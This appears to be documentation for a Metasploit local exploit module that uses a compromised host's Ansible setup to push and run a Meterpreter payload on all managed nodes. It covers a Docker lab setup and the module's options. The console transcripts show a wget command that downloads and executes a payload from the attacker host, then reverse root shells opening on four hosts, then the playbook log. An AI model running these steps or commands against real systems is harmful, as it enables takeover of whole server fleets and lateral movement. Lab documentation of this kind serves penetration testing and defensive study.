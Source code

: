 ## Vulnerable Application

This exploit module creates an ansible module for deployment to nodes in the network.
It creates a new yaml playbook which copies our payload, chmods it, then runs it on all
targets which have been selected (default all).

### Docker-compose Install

Use the ansible lab files located [here](https://github.com/abdennour/ansible-lab-environment-in-containers).

Before bringing up the `docker-compose` instance, you'll want to generate an SSH key: `ssh-keygen -t rsa -N "" -f secrets/id_rsa`

Of note, only 1 of the 3 alpine hosts will be successful due to the port conflict. This is fine though.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/ansible_node_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### ANSIBLEPLAYBOOK

Location of ansible executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible`. Defaults to ``

### WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

### TargetWritableDir

A directory on the target hosts we can write our payload to. Defaults to `/tmp`

### CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### HOSTS

Which Ansible host (groups) to target. Defaults to `all`

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back.
If set to `0`, wait forever. Defaults to `60`

## Scenarios

### Docker compose as mentioned above

Get initial access to the system

```
resource (ansible_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible_deploy.rb)> set srvport 8181
srvport => 8181
resource (ansible_deploy.rb)> set target 7
target => 7
resource (ansible_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/2BQIMgeywC6gGt9
[*] Server started.
[*] Run the following command on the target machine:
wget -qO OHZQobFE --no-check-certificate http://1.1.1.1:8181/2BQIMgeywC6gGt9; chmod +x OHZQobFE; ./OHZQobFE& disown
[*] 172.22.0.7       web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.7
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.22.0.7:49612) at 2023-12-15 20:12:27 -0500
```

```
resource (ansible_deploy.rb)> use exploit/linux/local/ansible_node_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (ansible_deploy.rb)> set session 1
session => 1
resource (ansible_deploy.rb)> set verbose true
verbose => true
resource (ansible_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible_deploy.rb)> set lport 9999
lport => 9999
[*] Starting persistent handler(s)...
[msf](Jobs:1 Agents:0) exploit(linux/local/ansible_node_deployer) > 
[msf](Jobs:1 Agents:1) exploit(linux/local/ansible_node_deployer) > set TargetWritableDir /etc/
TargetWritableDir => /etc/
[msf](Jobs:1 Agents:1) exploit(linux/local/ansible_node_deployer) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/ansible_node_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and ansible executable found
[+] The target is vulnerable.
[+] Stored pings to: /root/.msf4/loot/20231215201340_default_172.22.0.7_ansible.ping_422232.txt
[+] Ansible Pings
=============

 Host                       Status   Ping  Changed
 ----                       ------   ----  -------
 alpine-example-com         SUCCESS  pong  false
 alpinesystemd-example-com  SUCCESS  pong  false
 centos7-example-com        SUCCESS  pong  false
 rhel8-example-com          SUCCESS  pong  false

[+] 4 ansible hosts were pingable, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Creating yaml job to execute
[*] Writing payload
[*] Writing '/tmp/O514h2N' (250 bytes) ...
[*] Executing ansible job
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.6
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.4
[+] Stored run logs to: /root/.msf4/loot/20231215201411_default_172.22.0.7_ansible.playbook_967421.txt
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.5
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 172.22.0.2
[*] Meterpreter session 2 opened (1.1.1.1:9999 -> 172.22.0.6:60850) at 2023-12-15 20:14:36 -0500
[*] Meterpreter session 5 opened (1.1.1.1:9999 -> 172.22.0.2:34980) at 2023-12-15 20:14:36 -0500
[*] Meterpreter session 3 opened (1.1.1.1:9999 -> 172.22.0.4:51082) at 2023-12-15 20:14:46 -0500
[*] Meterpreter session 4 opened (1.1.1.1:9999 -> 172.22.0.5:41770) at 2023-12-15 20:14:56 -0500

[msf](Jobs:2 Agents:5) exploit(linux/local/ansible_node_deployer) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information        Connection
  --  ----  ----                   -----------        ----------
  1         meterpreter x64/linux  root @ 172.22.0.7  1.1.1.1:4444 -> 172.22.0.7:49612 (172.22.0.7)
  2         meterpreter x64/linux  root @ 172.22.0.6  1.1.1.1:9999 -> 172.22.0.6:60850 (172.22.0.6)
  3         meterpreter x64/linux  root @ 172.22.0.4  1.1.1.1:9999 -> 172.22.0.4:51082 (172.22.0.4)
  4         meterpreter x64/linux  root @ 172.22.0.5  1.1.1.1:9999 -> 172.22.0.5:41770 (172.22.0.5)
  5         meterpreter x64/linux  root @ 172.22.0.2  1.1.1.1:9999 -> 172.22.0.2:34980 (172.22.0.7)
```

```
└─$ cat ~/.msf4/loot/20231215201411_default_172.22.0.7_ansible.playbook_967421.txt

PLAY [Deliver Meterpreter] *****************************************************

TASK [Gathering Facts] *********************************************************
[DEPRECATION WARNING]: Distribution redhat 8.2 on host rhel8-example-com should
 use /usr/libexec/platform-python, but is using /usr/bin/python for backward 
compatibility with prior Ansible releases. A future Ansible release will 
default to using the discovered platform python for this host. See https://docs
.ansible.com/ansible/2.9/reference_appendices/interpreter_discovery.html for 
more information. This feature will be removed in version 2.12. Deprecation 
warnings can be disabled by setting deprecation_warnings=False in ansible.cfg.
ok: [rhel8-example-com]
ok: [centos7-example-com]
[WARNING]: Platform linux on host alpine-example-com is using the discovered
Python interpreter at /usr/bin/python, but future installation of another
Python interpreter could change this. See https://docs.ansible.com/ansible/2.9/
reference_appendices/interpreter_discovery.html for more information.
ok: [alpine-example-com]
[WARNING]: Platform linux on host alpinesystemd-example-com is using the
discovered Python interpreter at /usr/bin/python, but future installation of
another Python interpreter could change this. See https://docs.ansible.com/ansi
ble/2.9/reference_appendices/interpreter_discovery.html for more information.
ok: [alpinesystemd-example-com]

TASK [ansible.builtin.copy] ****************************************************
changed: [alpine-example-com]
changed: [centos7-example-com]
changed: [rhel8-example-com]
changed: [alpinesystemd-example-com]

TASK [ansible.builtin.file] ****************************************************
changed: [alpine-example-com]
changed: [rhel8-example-com]
changed: [centos7-example-com]
changed: [alpinesystemd-example-com]

TASK [command] ***************************************************************** 
```
